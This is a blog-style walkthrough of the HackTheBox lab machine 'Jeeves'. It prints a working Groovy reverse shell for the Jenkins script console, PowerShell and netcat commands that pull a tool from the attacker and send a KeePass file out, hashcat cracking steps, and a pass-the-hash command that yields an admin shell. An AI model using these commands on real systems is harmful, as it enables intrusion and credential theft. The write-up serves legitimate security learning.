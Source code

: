 ```yaml
---
layout: single
title:  Jeeves-HackTheBox
date: 2021-12-18
classes: wide
header:
  teaser: 
tags:
  - ctf
  - HackTheBox
--- 
```



Jeeves is in reference to a Jenkins server that we will eventually be exploiting. Super fun recap box!

![](/assets/images/Jeeves/jeevessite1.PNG)
Starting off by scanning ports.
![](/assets/images/Jeeves/jeevesscan.PNG)

See there is at least one webserver. Fuzz directories, ran nikto etc. Nothing of real interest there.
Check out the second Jetty webserver spotted in the nmap scan. gobuster until we find askjeeves	
![](/assets/images/Jeeves/jeeves1finsihsed.PNG)

Stumble accross the scripting console
![](/assets/images/Jeeves/jeevescli.PNG)

Do research to find ways to exploit this
exploit jenkins with groovy script 
https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins#code-execution
![](/assets/images/Jeeves/jeevesscript.PNG)


https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy

String host="<LOCAL-IP>";
int port=1234;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

![](/assets/images/Jeeves/jeevesusershell.PNG)  
  
We get a user shell as kohsuke. 
After a little bit of recon we come accross CEH.kdbx 
  
This file format appears to be a keepass password file. Before we attempt to see the password we have to download the file to our local machine. 
  
![](/assets/images/Jeeves/jeeveskdbx.PNG)

 I achieved this by downloading a netcat executable from the user shell we are in from a python http server that we host.
  
"powershell wget "http://localip:8000/nc.exe" -outfile nc.exe"
The virtual machine cannot reach out to github to download the file from there
Then "nc -lnvp <port> > CEH.kdbx" on your local machine and "nc.exe <local-ip> <same-port> < "CEH.kdbx" on the victim machine

We need a password to open the kdbx file. Why dont we crack it? 
I used this article as guidance, the main points summarized are
                                                                                               
https://www.rubydevices.com.au/blog/how-to-hack-keepass 
download and use keepass2john on the kdbx file.

./keepass2john CEH.kdbx > CEH.hash
Remove name of keepass database from the new hashfile. 
use hashcat to crack the file.

./hashcat -m 13400 -a 0 -w 1 CEH.hash <wordlist-file> 
 moonshine1 is the password to the keepass file
  
 ![](/assets/images/Jeeves/jeeveskeepass1.png)
 
 ![](/assets/images/Jeeves/jeeveskeepass2.png)
 
 We find a hash in the keepass file under the title of Backup stuff
 From here I got stuck for a while. While researching I found the tool pth-winexe
 read the docs, run to get admin! 
  
 pth-winexe --user=jeeves/administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 --system //10.10.10.63 cmd.ex
 
 we now have a root shell!
 ![](/assets/images/Jeeves/jeevesroot.PNG)

admin has hm.txt file redirecting to actual file
![](/assets/images/Jeeves/jeeveshn.PNG)

 get-content .\hm.txt -stream root.txt
and we get root flag :)
